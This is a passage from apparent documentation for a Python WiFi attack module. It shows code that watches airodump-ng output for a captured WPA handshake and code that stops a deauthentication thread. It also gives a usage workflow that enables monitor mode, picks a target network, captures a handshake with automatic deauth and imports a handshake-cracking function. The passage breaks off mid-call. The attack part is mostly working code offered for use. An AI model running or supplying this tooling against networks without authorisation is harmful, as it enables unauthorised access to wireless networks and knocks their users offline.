 #### 2. Real-time Handshake Detection

```python
# Monitor airodump-ng output line-by-line
while time.time() - start_time < max_duration:
    line = airodump_process.stdout.readline()
    
    # Method 1: Simple string match
    if "WPA handshake" in line:
        if bssid in line:
            handshake_captured = True
            break
    
    # Method 2: Regex extraction
    handshake_match = re.search(r'WPA handshake:\s*([0-9A-Fa-f:]{17})', line)
    if handshake_match:
        captured_bssid = handshake_match.group(1)
        if captured_bssid.upper() == bssid.upper():
            handshake_captured = True
            break
```

#### 3. Smart Process Termination

```python
# Stop deauth thread
deauth_active.clear()  # Signal thread to stop

# Terminate airodump-ng gracefully
airodump_process.terminate()
try:
    airodump_process.wait(timeout=5)
except subprocess.TimeoutExpired:
    airodump_process.kill()  # Force kill if necessary
    airodump_process.wait()

# Wait for deauth thread cleanup
deauth_thread.join(timeout=2)
```

## Usage Examples

### Complete Workflow

```python
from modules.wifi_module import (
    enable_monitor_mode,
    scan_wifi_networks,
    capture_handshake_with_deauth,
    crack_handshake
)

# 1. Enable monitor mode
monitor_interface = enable_monitor_mode("wlan0")
# Output: wlan0mon

# 2. Scan for networks
networks = scan_wifi_networks(monitor_interface, duration=30)
# Select target network
target = networks[0]  # Example: first network

# 3. Capture handshake with automatic deauth
capture_file = capture_handshake_with_deauth(
    monitor_interface=monitor_interface,
    bssid=target['bssid'],
```